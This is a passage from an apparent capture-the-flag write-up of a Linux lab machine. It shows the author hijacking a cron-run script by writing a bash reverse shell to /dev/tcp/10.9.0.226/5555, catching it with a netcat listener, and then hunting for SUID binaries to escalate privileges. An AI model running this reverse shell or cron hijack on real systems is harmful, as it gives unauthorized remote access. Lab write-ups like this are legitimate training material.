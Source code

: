 ![image](https://user-images.githubusercontent.com/67465230/187169019-3887fb67-b9da-4c2e-bbce-69f1853bdc7b.png)

we can see the file which runs periodically runs as Archangel user.

Navigating to opt directory and we find our helloworld.sh script,

![image](https://user-images.githubusercontent.com/67465230/187169054-e875845b-32a2-4776-98fc-6b4f4bead6ee.png)

I tried to navigate into backupfiles directory but failed,

![image](https://user-images.githubusercontent.com/67465230/187169090-0b5400b6-1e27-4037-9252-68c808d6c72c.png)

Let's now take a look at helloworld.sh file,

![image](https://user-images.githubusercontent.com/67465230/187169120-edbf338c-d8de-444f-b90d-cf647839c896.png)

this script is simply putting "hello world" string in **/opt/backupfiles/helloworld.txt**.

Let's start the listener using `nc -nvlp 5555` and put one-liner bash shell in the helloworld.sh script,

```bash
echo "#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.9.0.226/5555 <&1'" > helloworld.sh
```

After sometime, cronjobs will run this script and we will get our shell as archangel user,

![image](https://user-images.githubusercontent.com/67465230/187169180-14d01bcf-2d43-4e2b-9b31-4d7cc8c117ac.png)

Now, we need to find those files which has SUID bit set on them,

```bash
find / -perm -04000 -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187169224-3729a827-95c2-47f1-aa04-282f4a8cad85.png)

**/home/archangel/secret/backup** file has SUID bit set on it, so let's see how we can abuse it.

Navigating to the /home/secret directory and viewing the permission that this file will runs as root when executed,

![image](https://user-images.githubusercontent.com/67465230/187169272-eac3b5df-38d8-42b4-8d0b-0de7bc3eb127.png)

Now, let's execute this file and see what happens,

```bash
/home/archangel/secret/backup
```

![image](https://user-images.githubusercontent.com/67465230/187169319-b05e0427-bb52-4cbf-9d9d-92a7568b67df.png)

There is an error of *copy* command, I wonder what copy command is doing here.

Let's try to read the content of this file,

![image](https://user-images.githubusercontent.com/67465230/187169364-4a860a38-a7a9-47bb-accd-4860b77ffd1f.png)

